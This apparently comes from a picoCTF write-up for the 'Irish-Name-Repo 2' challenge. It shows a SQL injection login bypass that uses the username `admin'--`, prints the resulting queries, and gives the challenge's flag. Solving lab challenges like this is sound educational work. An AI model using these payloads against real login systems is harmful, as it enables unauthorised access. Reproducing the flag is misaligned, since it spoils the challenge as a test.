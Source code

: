 # Irish-Name-Repo 2
If we try the same thing as before the server helpfully tells us "SQLi detected."

However a username of `'--` gives "Login failed."
```sql
SELECT * FROM users WHERE name=''--' AND password=''
```
Now we just need to guess a name. `admin` is usually a good guess.

This would meen we need a username of `admin'--`, generating a query of

```sql
SELECT * FROM users WHERE name='admin'--' AND password=''
```

Flag: `picoCTF{m0R3_SQL_plz_daf42601}`

